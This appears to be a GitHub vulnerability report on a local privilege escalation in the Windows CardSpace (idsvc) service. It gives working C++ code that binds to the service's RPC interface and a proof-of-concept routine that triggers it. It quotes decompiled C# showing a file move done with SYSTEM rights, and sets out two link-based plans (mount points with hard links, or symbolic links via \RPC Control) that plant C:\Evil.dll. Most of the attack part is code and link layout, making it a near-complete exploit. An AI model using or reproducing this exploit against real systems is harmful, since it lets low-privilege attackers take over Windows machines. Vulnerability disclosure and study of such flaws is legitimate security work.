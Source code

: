 # Windows 7 has a local privilege escalation vulnerability

```markdown
First, configure the environment variable [_NT_SYMBOL_PATH] with the following value:  
SRV*C:\symbols*http://msdl.microsoft.com/download/symbols/

Manually download symbols, symchk.exe is located in the windbg directory:  
```cmd
symchk.exe "C:\Windows\Microsoft.NET\Framework64\v3.0\Windows Communication Foundation\infocard.exe" /v
```

In RpcView tool, click Options -> Configure Symbols, and enter the following content (case-sensitive):  
```
srv*C:\symbols
```
![](https://github.com/xubeining/Cve_report/blob/main/OS1.png)

Use the tool to obtain three important data: the type of RPC protocol, the protocol name, and the client definition file of the protocol interface (compiled IDL-generated .c file, see the Decompilation textbox on the left). You can then bind the RPC service with the following method:

```cpp
BOOL StartRpcService()
{
	RPC_STATUS status;
	unsigned int cMinCalls = 1;
	RPC_BINDING_HANDLE v5;
	RPC_SECURITY_QOS SecurityQOS = {};
	RPC_WSTR StringBinding = nullptr;
	if (StartConnectingService())
	{
		// RPC protocol type and name
		status = RpcStringBindingComposeW(nullptr, L"ncalrpc", 0, L"31336F38236F3E2C6F3F2E6F20336F20236F21326F", nullptr, &StringBinding);
		if (status){
			printf("RpcStringBindingComposeW Failed:%d\n", status);
			return(status);
		}
		status = RpcBindingFromStringBindingW(StringBinding, &hBinding);
		RpcStringFreeW(&StringBinding);
		if (status){
			printf("RpcBindingFromStringBindingW Failed:%d\n", status);
			return(status);
		}
		SecurityQOS.Version = 1;
		SecurityQOS.ImpersonationType = RPC_C_IMP_LEVEL_IMPERSONATE;
		SecurityQOS.Capabilities = RPC_C_QOS_CAPABILITIES_DEFAULT;
		SecurityQOS.IdentityTracking = RPC_C_QOS_IDENTITY_STATIC;
		status = RpcBindingSetAuthInfoExW(hBinding, 0, 6u, 0xAu, 0, 0, (RPC_SECURITY_QOS*)&SecurityQOS);
		if (status){
			printf("RpcBindingSetAuthInfoExW Failed:%d\n", status);
			return(status);
		}
		// Bind interface
		status = RpcEpResolveBinding(hBinding, DefaultIfName_v1_0_c_ifspec);
		if (status){
			printf("RpcEpResolveBinding Failed:%d\n", status);
			return(status);
		}
	}
	else
	{
		printf("Start Connecting Windows Cardspace Service Failed");
		return 0;
	}
	return 0;
}
```

Through reverse-engineering the idsvc service code, the actual project is revealed (see related project). The idsvc service binds a global handler for the global RPC interface `RequestFactory.ProcessNewRequest`. For the first call (when `parentRequestHandle` is 0), it calls the `CreateClientRequestInstance` class to handle the callback. Subsequent operations are handled by `CreateUIAgentRequestInstance`.

```csharp
// Global handler for the global RPC interface
internal static int ProcessNewRequest(int parentRequestHandle, IntPtr rpcHandle, IntPtr inArgs, out IntPtr outArgs)
{
	...
	// First call
	if (parentRequestHandle == 0)
	{
		using (UIAgentMonitorHandle monitorHandle = new UIAgentMonitorHandle())
		{
			using (ClientRequest clientRequestInstance = RequestFactory.CreateClientRequestInstance(monitorHandle, structure.Type, rpcHandle, inStream, (Stream)outStream))
			{
				string extendedMessage;
				// After reflection, execute the instance's DoProcessRequest method to handle the request
				num = clientRequestInstance.DoProcessRequest(out extendedMessage);
				RpcResponse outArgs1;
				RequestFactory.ConvertStreamToIntPtr(outStream, out outArgs1);
				// Return result
				outArgs = outArgs1.Marshal();		
			}
		}
	}
}
```

The idsvc service reflects out the corresponding class to handle the callback according to the class name in `RpcRequest->Type`. In the PoC, the `"ManageRequest"` class is used:

```csharp
private static ClientRequest CreateClientRequestInstance(UIAgentMonitorHandle monitorHandle, string reqName, IntPtr rpcHandle, Stream inStream, Stream outStream)
{
	ClientRequest clientRequest = (ClientRequest)null;
	lock (RequestFactory.s_createRequestSync)
	{
		RequestFactory.RequestName request = RequestFactory.s_requestMap[reqName];
		if (-1 != Array.IndexOf<RequestFactory.RequestName>(RequestFactory.s_uiClientRequests, request))
		{
			Process contextMapping = ClientUIRequest.GetContextMapping(rpcHandle, true);
			InfoCardTrace.ThrowInvalidArgumentConditional(null == contextMapping, nameof(rpcHandle));
			WindowsIdentity executionIdentity = NativeMcppMethods.CreateServiceExecutionIdentity(contextMapping);
			InfoCardUIAgent agent = monitorHandle.CreateAgent(contextMapping.Id, executionIdentity, tSSession);
			switch (RequestFactory.s_requestMap[reqName])
			{
				// Here, the "ManageRequest" class is used
				case RequestFactory.RequestName.ManageRequest:
					clientRequest = (ClientRequest)new ManageRequest(contextMapping, executionIdentity, agent, rpcHandle, inStream, outStream);
					break;
			}
		}
	}
}
```

The `DoProcessRequest` function of the `ManageRequest` instance is triggered to handle the request. Skipping intermediate steps, it finally calls `StoreConnection.CreateDefaultDataSources()` which becomes the exploitation point. During interaction with the service, the service impersonates the client and retrieves the user's configuration file, by default under the `%APPDATA%` directory. For IIS users, a special case where the configuration file is not loaded by default, this must be enabled via: Application Pool -> Advanced Settings.
![](https://github.com/xubeining/Cve_report/blob/main/OS3.png)

```csharp
// Constructor
protected StoreConnection(WindowsIdentity identity)
{
	// identity here is the client identity
	this.m_identity = new WindowsIdentity(identity.Token);
	// Get user's environment variable %APPDATA%
	this.m_path = Path.Combine(Environment.GetFolderPath(Environment.SpecialFolder.LocalApplicationData), "Microsoft\\CardSpace\\");
	this.m_localSource = this.m_path + "CardSpaceSP2.db";
}
```

```csharp
protected virtual void CreateDefaultDataSources(Hashtable list)
{
	string str = this.m_path + "CardSpace.db";
	// Within using block, the service identity is used; upon leaving the block, impersonate client continues
	using (new SystemIdentity(true))
	{
		...
		if (File.Exists(str))
		{
			// Replace file, internal implementation uses File.MoveTo, etc.
			this.AtomicFileCopy(str, this.m_localSource);
		}
	}
}
```

```csharp
protected void AtomicFileCopy(string source, string destination)
{
	if (!File.Exists(source))
		return;
	// Add .atomic suffix, move file
	File.Copy(source, source + ".atomic", true);
	FileInfo fileInfo = new FileInfo(source + ".atomic");
	if (fileInfo.Length == 0L)
		return;
	fileInfo.MoveTo(destination);
}
```

The idsvc service switches back to its own identity using `new SystemIdentity(true)` and moves the user's configuration file via `AtomicFileCopy`. Under default configuration, files in the `%APPDATA%` directory are fully controllable by the current user. When a high-privilege process performs delete, move, copy, or attribute operations on files controllable by a low-privilege process, the latter can exploit this privilege to perform various operations.

James Forshaw (@tiraniddo) provides an open-source toolkit. His pioneering work on NTFS and Windows internals has implemented several exploitation methods and techniques that abuse high-privileged processes' file operations. The NTFS file system allows one user-controlled directory to be mounted into another (Mount Points and Junctions), symbolic links to point one file/directory to another (Reparse Points), and hard links to link a user-controllable file to a readable one, all potentially enabling high-privilege abuse.

In this PoC, the following two exploitation methods are available:

**Method 1: Mount Points and Hard Links (Windows 7 only)**  
(Does not work on Windows 10 due to Microsoft mitigations)

```text
C:\workspace\mountpoint -> C:\Users\Username\AppData\Local\Microsoft\CardSpace
Source file (Mount Point) = C:\workspace\mountpoint\CardSpace.db (Fake.dll) -> C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db
Target file (Hard Link) = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -> C:\Evil.dll
```

**Method 2: Symbolic Links to \RPC Control (works on Windows 10)**

```text
C:\Users\Username\AppData\Local\Microsoft\CardSpace -> \RPC Control
Source file = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db -> \RPC Control\CardSpace.db
Target file = C:\Users\Username\AppData\Local\Microsoft\CardSpace\CardSpace.db.atomic -> \RPC Control\CardSpace.db.atomic
Source file = \RPC Control\CardSpace.db -> C:\Fake.dll
Target file = \RPC Control\CardSpace.db.atomic -> C:\Evil.dll
```
![](https://github.com/xubeining/Cve_report/blob/main/OS3.png)

According to Process Monitor, idsvc does not use impersonation while moving files, nor does it check for symbolic link attributes, which leads to an arbitrary file replacement privilege escalation vulnerability.

The following is the key PoC code:

```cpp
BOOL Exploit()
{
	RpcRequest* req = (RpcRequest*)CoTaskMemAlloc(sizeof(RpcRequest));
	req->Type = L"ManageRequest";
	req->Length = 0;
	req->Data = 0;
	RpcResponse* rep = (RpcResponse*)CoTaskMemAlloc(sizeof(RpcResponse));
	UINT32* ctx = 0;
	long ret = Proc0_RPCClientBindToService(hBinding, (void**)&ctx);
	printf("Proc0_RPCClientBindToService :%d\n", ret);
	ret = Proc2_RPCDispatchClientUIRequest((void**)&ctx, req, &rep);
	printf("Proc2_RPCDispatchClientUIRequest :%08x\n", ret);
	return 0;
}
```
